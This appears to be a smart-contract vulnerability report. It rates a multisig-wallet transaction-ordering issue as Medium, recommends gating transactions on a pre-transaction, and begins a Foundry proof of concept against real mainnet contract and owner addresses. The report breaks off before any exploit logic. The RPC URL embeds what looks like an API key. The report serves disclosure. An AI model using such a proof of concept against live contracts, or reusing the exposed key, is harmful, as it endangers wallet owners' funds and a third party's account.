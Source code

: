 The impact depends on the actual transaction content and the current impact is potential. But since `MultiSigWallet` is a high-privilege address, I think it is a Medium level.

## Risk Breakdown

Difficulty to Exploit: Hard

## Recommendation

Each transaction sets a pre-transaction, and the transaction can only be executed after the pre-transaction is completed.

## References


## Proof of concept
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";

// main fork url
string constant MAINNET_RPC_URL = "https://eth-mainnet.g.alchemy.com/v2/TrnSBL14bW3BaXavojgbw69L0ZK2lbZ_";
uint256 constant MAINNET_BLOCK_NUMBER = 18614000;

// contract address
address constant ADDRESS_CONTRACT_ExchangeV3 = address(0x9C07A72177c5A05410cA338823e790876E79D73B);
address constant ADDRESS_CONTRACT_MultiSigWallet = address(0x2028834B2c0A36A918c10937EeA71BE4f932da52);
address constant ADDRESS_CONTRACT_WETH = address(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

// user address
address constant ADDRESS_USER_Attacker = address(0xAACE);
address constant ADDRESS_USER_USER1 = address(0xACC1);
address constant ADDRESS_USER_USER2 = address(0xACC2);
address constant ADDRESS_USER_ExchangeV3Owner = address(0x9b93e47b7F61ad1358Bd47Cd01206708E85AE5eD);
address constant ADDRESS_USER_MultiSigWalletOwner1 = address(0xf5020ADf433645c451A4809eac0d6F680709f11B);
address constant ADDRESS_USER_MultiSigWalletOwner2 = address(0xeD530f3b8675B0a576DaAe64C004676c65368DfD);
address constant ADDRESS_USER_MultiSigWalletOwner3 = address(0xB7093FC2d926ADdE48122B70991fe68374879adf);
address constant ADDRESS_USER_MultiSigWalletOwner4 = address(0xC715b8501039d3514787dC55BC09f89c293351e9);
address constant ADDRESS_USER_MultiSigWalletOwner5 = address(0x6EF4e54E049A5FffB629063D3a9ee38ac27551C8);
address constant ADDRESS_USER_MultiSigWalletOwner6 = address(0x3Cd51A933b0803DDCcDF985A7c71C1C7357FE9Eb);

interface IExchangeV3 {
    function registerToken(address tokenAddress) external returns (uint32);
}

interface IMultiSigWallet {
    function removeOwner(address owner) external;
    function submitTransaction(address destination, uint value, bytes memory data) external returns (uint transactionId);
    function confirmTransaction(uint transactionId) external;

```